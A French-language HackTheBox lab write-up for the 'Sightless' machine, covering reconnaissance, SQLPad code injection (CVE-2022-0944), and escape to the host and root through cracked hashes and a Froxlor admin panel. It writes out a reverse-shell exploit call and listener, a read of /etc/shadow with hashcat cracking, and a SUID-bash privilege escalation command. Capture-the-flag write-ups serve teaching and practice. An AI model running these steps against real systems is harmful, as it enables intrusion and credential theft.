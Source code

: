 ```yaml
---
title: Sightless
tags: [HackTheBox, Facile, Linux, SQLPad, Froxlor, Docker]
style: border
color: htb
comments: false
description: Sixième semaine de la saison 6 "HEIST"
created: 14/09/2024
modified: 18/03/2025
---
```

> **IMPORTANT** : Ce compte-rendu a été rédigé la semaine où la machine était active durant la saison, mais publié à la fin de la saison afin de ne pas impacter son déroulement conformément aux [règles de la plateforme](https://help.hackthebox.com/en/articles/5188925-streaming-writeups-walkthrough-guidelines)

Lien vers l'épreuve : <https://app.hackthebox.com/machines/Sightless>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=hackthebox)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du site](#analyse-du-site)
* [Exploration](#exploration)
* [Elevation de privilèges](#elevation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A sightless.htb
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 15:21 CEST
Nmap scan report for sightless.htb (10.10.11.32)
Host is up (0.027s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/14%Time=66E58DFB%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20
SF:Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20
SF:try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x
SF:20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.56 seconds
{% endcapture %}
{% include elements/spoil.html %}

Le scan {% include dictionary.html word="NMAP" %} indique qu'il y a un serveur {% include dictionary.html word="FTP" %} sur le port 21 (qui ne semble pas accessible par les utilisateurs anonymes), un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur Nginx sur le port 80

## Analyse du site

Une rapide analyse du site nous indique que le serveur utilise SQLPad et Froxlor. Nous allons pouvoir chercher des vulnérabilités sur ces outils

{% include elements/figure_spoil.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_sightless.png" caption="Les services proposés" %}

En explorant SQLPad, il n'apparaît pas de nécessité de connexion pour y accéder. La version utilisée 6.10.0 est vulnérable à l'injection de code, documentée dans le [CVE-2022-0944](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb).

Pour exploiter cette vulnérabilité, nous utilisons le code fourni par l'utilisateur [0xRoqeeb](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) sur Github

Pour l'utiliser, nous lançons le programme avec la commande :

```bash
python3 exploit.py http://sqlpad.sightless.htb 10.10.14.84 9000
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

En utilisant {% include dictionary.html word="Netcat" %}, nous obtenons un *{% include dictionary.html word="reverse-shell" %}*

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.14.84] from (UNKNOWN) [10.10.11.32] 33330
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```

## Exploration

Bien que nous soyons root sur la machine, il apparaît que nous sommes en réalité dans container Docker

```bash
ls -hal /
total 88K
drwxr-xr-x   1 root root 4.0K Aug  2 09:30 .
drwxr-xr-x   1 root root 4.0K Aug  2 09:30 ..
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
[... expurgé pour brièveté ...]
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint
[... expurgé pour brièveté ...]
```

Nous allons donc devoir trouver un moyen d'échapper à l'environnement, et atteindre le serveur qui fait tourner cet outil.

En explorant le container, nous constatons qu'il existe un compte pour un utilisateur "michael". Nous pouvons récupérer le hash de son mot de passe ainsi que celui du compte root en lisant le fichier /etc/shadow

```bash
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTIT[... expurgé ...]0LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
[... expurgé pour brièveté ...]
michael:$6$mG3Cp2VPGY.FDE8u$KVWVI[... expurgé ...]aFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Nous récupérons les hashes dans un fichier texte, et nous lançons {% include dictionary.html word="Hashcat" %} afin de récupérer les mots de passe.

```bash
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTIT[... expurgé ...]0LGaepC3ch6Bb2z/lEpBM90Ra4b.:b[...expurgé...]e
michael:$6$mG3Cp2VPGY.FDE8u$KVWVI[... expurgé ...]aFYuJa6DUh/pL2IJD/:i[...expurgé...]e
```

Bien que la tentative de connexion au compte root soit infructueuse, nous sommes parvenu à nous connecter en {% include dictionary.html word="SSH" %} avec le mot de passe récupérer pour Michael

```bash
ssh root@sightless.htb
root@sightless.htb's password: 
Permission denied, please try again.
root@sightless.htb's password: 

ssh michael@sightless.htb
michael@sightless.htb's password: 
Last login: Sat Sep 14 14:42:08 2024 from 10.10.14.102
michael@sightless:~$
```

Nous pouvons récupérer le flag user :

```bash
cat user.txt 
bd6ac9[...expurgé...]b7e8ea
```

## Elevation de privilèges

L'utilisateur ne peut pas faire de commande {% include dictionary.html word="sudo" %}, la crontab n'est pas alimentée. La recherche de binaires disposant de droits particuliers ne donne pas de résultat intéressant non plus.

En revanche, en listant les ports ouverts, nous constatons que le port 8080 est ouvert :

```bash
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
[... expurgé pour brièveté ...]
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
[... expurgé pour brièveté ...]
```

Nous ouvrons donc une connexion {% include dictionary.html word="SSH" %} avec redirection de port pour pouvoir analyser le contenu.

Le service ouvert est Froxlor, et nécessite des identifiants

{% include elements/figure_spoil.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_Froxlor.png" caption="Accueil de Froxlor" %}

Nous tentons d'utiliser la payload du [CVE-2024-34070](https://github.com/advisories/GHSA-x525-54hf-xr53) sans succès, sûrement dû à l'absence d'interaction par un administrateur.

En tentant d'exploiter une faille de Google Chrome / Chromium avec la commande `chrome://inspect/#devices` et en ajoutant les ports ouverts (et forwardés) dans le menu *Configure* nous observons des actions de connexion sur l'outil Froxlor :

{% include elements/figure_spoil.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_Chromium.png" caption="Chromium nous permet d'observer des actions sur l'outil Froxlor" %}

En cliquant sur "inspect" nous pouvons accéder aux outils d'analyse du réseau de Chromium où nous trouvons une page `index.php` qui contient en *payload* les données de connexions pour Froxlor :

```txt
loginname: admin
password: For[... expurgé ...]Admin
dologin:
```

Nous pouvons enfin accéder à l'outil :

{% include elements/figure_spoil.html image="/images/HTB/20240914/VirtualBox_Kali Hack_14_09_2024_19_26_26.png" caption="Interface de l'outil Froxlor" %}

Depuis l'onglet PHP / PHP-FPM versions nous pouvons ajouter une commande lors du redémarrage de php-fpm. Dans le but de devenir root sur la machine, nous optons pour `chmod 4777 /bin/bash` afin de permettre de devenir root en exécutant `/bin/bash -p` en étant connecter en tant que Michael.

En redémarrant le service PHP-FPM, le binaire /bin/bash a bien changé de droits

```bash
# Avant
ls -hal /bin/bash
-rwxr-xr-x 1 root root 1.4M Mar 14  2024 /bin/bash

# Après
ls -hal /bin/bash
-rwsrwxrwx 1 root root 1.4M Mar 14  2024 /bin/bash
```

Nous pouvons élever nos droits et devenir root. Ainsi nous pouvons récupérer le flag root.txt

```bash
/bin/bash -p
bash-5.1# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
bash-5.1# cat /root/root.txt 
6c41fa[... expurgé ...]685ef4
```
